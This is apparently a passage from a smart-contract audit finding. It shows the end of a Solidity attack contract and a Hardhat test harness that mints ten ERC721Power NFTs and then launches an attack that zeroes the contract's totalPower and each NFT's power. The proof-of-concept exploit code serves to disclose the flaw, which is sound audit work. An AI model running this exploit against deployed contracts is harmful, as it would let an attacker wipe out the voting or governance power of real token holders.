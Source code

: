 ```solidity
            nftPower.totalPower() == 0,
            "ERC721PowerAttack: after attack finished totalPower should equal 0"
        );
    }
}
```

Add test harness to `ERC721Power.test.js`:
```javascript
    describe("audit attacker can manipulate ERC721Power totalPower", () => {
      it("audit attack 1 sets ERC721Power totalPower & all nft currentPower to 0", async () => {
        // deploy the ERC721Power nft contract with:
        // max power of each nft = 100
        // power reduction 10%
        // required collateral = 100
        let maxPowerPerNft = toPercent("100");
        let requiredCollateral = wei("100");
        let powerCalcStartTime = (await getCurrentBlockTime()) + 1000;
        // hack needed to start attack contract on exact block due to hardhat
        // advancing block.timestamp in the background between function calls
        let powerCalcStartTime2 = (await getCurrentBlockTime()) + 999;

        // create power nft contract
        await deployNft(powerCalcStartTime, maxPowerPerNft, toPercent("10"), requiredCollateral);

        // ERC721Power::totalPower should be zero as no nfts yet created
        assert.equal((await nft.totalPower()).toFixed(), toPercent("0").times(1).toFixed());

        // create the attack contract
        const ERC721PowerAttack = artifacts.require("ERC721PowerAttack");
        let attackContract = await ERC721PowerAttack.new();

        // create 10 power nfts for SECOND
        await nft.safeMint(SECOND, 1);
        await nft.safeMint(SECOND, 2);
        await nft.safeMint(SECOND, 3);
        await nft.safeMint(SECOND, 4);
        await nft.safeMint(SECOND, 5);
        await nft.safeMint(SECOND, 6);
        await nft.safeMint(SECOND, 7);
        await nft.safeMint(SECOND, 8);
        await nft.safeMint(SECOND, 9);
        await nft.safeMint(SECOND, 10);

        // verify ERC721Power::totalPower has been increased by max power for all nfts
        assert.equal((await nft.totalPower()).toFixed(), maxPowerPerNft.times(10).toFixed());

        // fast forward time to the start of power calculation
        await setTime(powerCalcStartTime2);

        // launch the attack
        await attackContract.attack(nft.address, maxPowerPerNft.times(10).toFixed(), 10);
      });
    });
```
